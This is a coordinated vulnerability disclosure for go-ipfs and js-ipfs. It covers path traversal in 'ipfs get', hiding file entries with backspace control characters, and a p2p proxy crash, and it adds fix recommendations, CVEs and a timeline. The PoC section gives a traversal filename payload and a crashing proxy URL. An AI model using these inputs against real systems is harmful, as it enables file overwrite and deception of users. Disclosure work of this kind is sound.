


<font size="8">**Vulnerability Note**</font>

## Summary

> A peer-to-peer hypermedia protocol
designed to make the web faster, safer, and more open.

1. (**critical**) `go-ipfs/js-ipfs` cli: `ipfs get` path traversal, arbitrary (over-)write any location
2. (**high**) `go-ipfs/js-ipfs` cli: console output control char injection
3. (**low**) `go-ipfs`: p2p proxy forced panic (recovered; prints stacktrace)

(1) and (2) can be chained together to hide the fact that a CID may violate basedir restrictions in `ipfs ls`.

## Details

### Path Traversal - arbitrary overwrite - (critical)

1. Adding a file containing path traversal to the index
2. downloading the file with `js-ipfs` and `go-ipfs` leaves an empty local folder with the CID and our path-traversal file in `/tmp`


**Note**: the file added actually steps out of the CWD/Basedir to /tmp and drops a file `yolo-ipfs-abspath-injected` there

**Note**: neither js-ipfs nor go-ipfs ask for permission to overwrite an existing file


**Recommendation**:
  - ask before overwrite
  - validate path before writing files. ask the user if unsure if the file is safe or something fishy has been detected
  - implement a basedir restriction (check if effective path is within a safe basedir)

### Console Control Char Injection - (High)

chaining (1) with (2) to disguise the path traversal (otherwise we'd se a lot of `../` in `ipfs ls`). The side-by-side view shows a user downloading an ipfs CID in the left window, and a live view of `/tmp` to the right.

1. Adding a file containing a path traversal (as in (1)) and another file with a file-name that contains a lot of backspaces (`0x08` or `\b`)
2. listing the CID’s contents with go-ipfs does not show any traces of the `yolo-ipfs-abspath-injected` file as we just deleted that from the console output (backspace chars). The 2nd entry is fake (see CID containing `FakeFakeFake`) to make this CID look more benign.
3. upon `ipfs get` a new file `yolo-ipfs-abspath-injected` appears in `/tmp` (see right hand terminal)



**Note**: The “filename too long” error can be prevented but I didnt care for the purpose of this PoC

**Note**: The implementation of the `ls` command and console handling is different between go-ipfs and js-ipfs. In go-ipfs everything except the first line can be backspaced (and we can make the first line look benign instead of `../`). In js-ipfs only the current line can be backspaced.
Note: This is important: ANY ascii and utf8 control character can be injected. e.g. one might add fake entries by adding newlines or disguise file extensions by using RTL chars or utf8 special control or non-printables.


**Recommendation**:
- encode any control char or non-printables before printing them.


### P2P Proxy Panic - (Low)

The **experimental** p2p proxy can be forcefully crashed due to an out of bounds index access parsing the following URL: `http://localhost:8080/p2p/1/x/4/http`.

The Relevant code does not validate that `split.length > 6` before accessing the item at index 6.
https://github.com/ipfs/go-ipfs/blob/0114869d7e7d43038d1a05cd76fec22aa07f78ff/core/corehttp/p2p_proxy.go#L55-L72


The proxy is typically only running on localhost, however, this can be forcefully exploited by a remote attacker by luring the user to a benign looking URL that redirects to `<localhost or dns-domain resolving to 127.0.0.1>:8080`.

Impact: low - due to the service being able to recover from this (and the feature being experimental)

```
tintin@takeshii:~/workspace/golang/go-ipfs|master⚡
⇒  ipfs daemon
Initializing daemon...
go-ipfs version: 0.8.0-dev-79a55305e
Repo version: 10
System version: amd64/darwin
Golang version: go1.14
Swarm listening on /ip4/127.0.0.1/tcp/4001
Swarm listening on /ip4/192.168.86.69/tcp/4001
Swarm listening on /ip6/::1/tcp/4001
Swarm listening on /ip6/::1/udp/4001/quic
Swarm listening on /p2p-circuit
Swarm announcing /ip4/127.0.0.1/tcp/4001
Swarm announcing /ip4/192.168.86.69/tcp/4001
Swarm announcing /ip6/::1/tcp/4001
Swarm announcing /ip6/::1/udp/4001/quic
API server listening on /ip4/127.0.0.1/tcp/5001
WebUI: http://127.0.0.1:5001/webui
Gateway (readonly) server listening on /ip4/127.0.0.1/tcp/8080
Daemon is ready
2020/11/23 12:31:29 http: panic serving 127.0.0.1:56428: runtime error: index out of range [6] with length 6
goroutine 3616 [running]:
net/http.(*conn).serve.func1(0xc00287e1e0)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:1772 +0x139
panic(0x512aa60, 0xc00285fd20)
	/usr/local/Cellar/go/1.14/libexec/src/runtime/panic.go:973 +0x396
github.com/ipfs/go-ipfs/core/corehttp.parseRequest(0xc002958100, 0xc00161a400, 0xc0001f0f40, 0xc000778020)
	/Users/tintin/workspace/golang/go-ipfs/core/corehttp/p2p_proxy.go:72 +0x45f
github.com/ipfs/go-ipfs/core/corehttp.P2PProxyOption.func1.1(0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/Users/tintin/workspace/golang/go-ipfs/core/corehttp/p2p_proxy.go:22 +0x3b
net/http.HandlerFunc.ServeHTTP(0xc000c1c560, 0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
net/http.(*ServeMux).ServeHTTP(0xc001b1a5c0, 0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2387 +0x1a5
github.com/ipfs/go-ipfs/core/corehttp.CheckVersionOption.func1.1(0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/Users/tintin/workspace/golang/go-ipfs/core/corehttp/commands.go:184 +0x2f9
net/http.HandlerFunc.ServeHTTP(0xc000778020, 0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
net/http.(*ServeMux).ServeHTTP(0xc001b1a4c0, 0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2387 +0x1a5
github.com/ipfs/go-ipfs/core/corehttp.HostnameOption.func1.1(0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/Users/tintin/workspace/golang/go-ipfs/core/corehttp/hostname.go:123 +0x1c3
net/http.HandlerFunc.ServeHTTP(0xc0007287d0, 0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
net/http.(*ServeMux).ServeHTTP(0xc001b1a440, 0xf4bb2a0, 0xc002869c70, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2387 +0x1a5
github.com/prometheus/client_golang/prometheus/promhttp.InstrumentHandlerResponseSize.func1(0xf4bb2a0, 0xc002869c20, 0xc002958100)
	/Users/tintin/go/pkg/mod/github.com/prometheus/client_golang@v1.7.1/prometheus/promhttp/instrument_server.go:196 +0xea
net/http.HandlerFunc.ServeHTTP(0xc000e955f0, 0xf4bb2a0, 0xc002869c20, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
github.com/prometheus/client_golang/prometheus/promhttp.InstrumentHandlerRequestSize.func2(0xf4bb2a0, 0xc002869c20, 0xc002958100)
	/Users/tintin/go/pkg/mod/github.com/prometheus/client_golang@v1.7.1/prometheus/promhttp/instrument_server.go:170 +0x74
net/http.HandlerFunc.ServeHTTP(0xc000e95680, 0xf4bb2a0, 0xc002869c20, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
github.com/prometheus/client_golang/prometheus/promhttp.InstrumentHandlerDuration.func2(0xf4bb2a0, 0xc002869c20, 0xc002958100)
	/Users/tintin/go/pkg/mod/github.com/prometheus/client_golang@v1.7.1/prometheus/promhttp/instrument_server.go:76 +0xb2
net/http.HandlerFunc.ServeHTTP(0xc000e95710, 0xf4bb2a0, 0xc002869c20, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
github.com/prometheus/client_golang/prometheus/promhttp.InstrumentHandlerCounter.func1(0x56749a0, 0xc0002268c0, 0xc002958100)
	/Users/tintin/go/pkg/mod/github.com/prometheus/client_golang@v1.7.1/prometheus/promhttp/instrument_server.go:100 +0xda
net/http.HandlerFunc.ServeHTTP(0xc000e95860, 0x56749a0, 0xc0002268c0, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
net/http.(*ServeMux).ServeHTTP(0xc001b1a400, 0x56749a0, 0xc0002268c0, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2387 +0x1a5
github.com/ipfs/go-ipfs/core/corehttp.makeHandler.func1(0x56749a0, 0xc0002268c0, 0xc002958100)
	/Users/tintin/workspace/golang/go-ipfs/core/corehttp/corehttp.go:54 +0x6c
net/http.HandlerFunc.ServeHTTP(0xc000c1c570, 0x56749a0, 0xc0002268c0, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2012 +0x44
net/http.serverHandler.ServeHTTP(0xc002136000, 0x56749a0, 0xc0002268c0, 0xc002958100)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2807 +0xa3
net/http.(*conn).serve(0xc00287e1e0, 0x567b9a0, 0xc0029413c0)
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:1895 +0x86c
created by net/http.(*Server).Serve
	/usr/local/Cellar/go/1.14/libexec/src/net/http/server.go:2933 +0x35c
2020/11/23 12:31:29 http: panic serving 127.0.0.1:56429: runtime error: index out of range [6] with length 6
goroutine 3617 [running]:
```

## PoC

Patch `js-ipfs` to be able to publish files containing path traversals.



1. create two empty dummy files `Readme.md`, `Readme2.md`
2. build js-ipfs with the changes outline in the image above
3. add both dummy files to the ipfs index traversing out of an existing dir to `/tmp/yolo.ipfs-abspath-injected`
4. perform an `ipfs ls` and `ipfs get` as shown in the example in the description section.
5. a file should be created in `/tmp/yolo-ipfs-abspath-injected` (existing files will be overwritten)

```
#> touch Readme.md
#> touch Readme2.md
#> # — build js-ipfs —
#> OVERRIDE_PATH="../../../../../../../../../../../../tmp/yolo-ipfs-abspath-injected" ./packages/ipfs-message-port-client/node_modules/.bin/jsipfs add -w README.md README2.md
```


## Vendor Response

* go-ipfs patches for 0.8
* js-ipfs patches released in 0.52.2
* vendor security advisories
  * [CVE-2020-26279](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-27pv-q55r-222g)
  * [CVE-2020-26283](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-r4gv-vj59-cccm)


### Timeline

```
Nov/23/2020 - initial contact. vendor acknowledgement. PoC shared.
Dec/18/2020 - fix preview: go-ipfs patches for 0.8, js-ipfs patches released in 0.52.2
Mar/24/2021 - vendor published security advisories [CVE-2020-26279](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-27pv-q55r-222g) [CVE-2020-26283](https://github.com/ipfs/go-ipfs/security/advisories/GHSA-r4gv-vj59-cccm)
```
